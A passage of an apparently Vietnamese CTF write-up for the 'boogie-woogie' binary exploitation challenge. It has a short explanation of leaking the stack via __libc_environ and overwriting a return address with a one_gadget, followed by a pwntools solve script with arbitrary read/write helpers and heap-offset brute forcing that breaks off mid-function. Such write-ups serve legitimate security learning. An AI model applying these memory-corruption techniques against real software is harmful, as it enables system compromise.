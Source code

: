### Get SHELL

Bây giờ ta đã có AAW với địa chỉ libc vừa được leak, đơn giản ta sẽ leak stack thông qua `__libc_envrion` rồi ghi đè `return address` về `one_gadget` .

## Solve Script

```python
from pwn import *
import os

libc = ELF("./libc.so.6")
elf = context.binary = ELF("./boogie-woogie_patched")
# context.log_level = 'debug'

def connect():
    if args.LOCAL:
        return process('./boogie-woogie_patched')
    elif args.DOCKER:
        return remote('0', 1337)
        
def clap_str(num1, num2):
    io.sendline(num1.encode() + b' ' + num2.encode())
def clap(v1,v2):
    io.sendline((str(v1)+' '+str(v2)).encode())

def aar(addr):
    for i in range(8):
        clap(addr+i, 1+i)

    for _ in range(8):
        io.readuntil(b"exception:")
    io.recvuntil(b"4m")
    io.recvuntil(b"L")
    ptr = u64(io.recv(6).ljust(8,b"\x00"))
    for i in range(8):
        io.sendline(f"{addr+i} {1+i}".encode())

    for _ in range(8):
        io.recvuntil(b"exception:")
    return ptr

def aaw(addr1, addr2, len):
    for i in range(len):
        clap(addr1+i-elf.sym['data'], addr2+i-elf.sym['data'])
    
def brute_heap_offset():
    idx = 0
    with log.progress('Bruting') as p:
        while True:
            try:
                idx += 1
                p.status("attempt %i", idx)
                io = connect()
                io.recvuntil(b"exception")
                trial_heap_offset = 0x1995fe0
            
                io.sendline(f"1 {trial_heap_offset}".encode())
                
                io.recvuntil(b"exception")
                io.sendline(f"1 {trial_heap_offset}".encode())
                p.success()
                return (io, trial_heap_offset >> 12 << 12)
```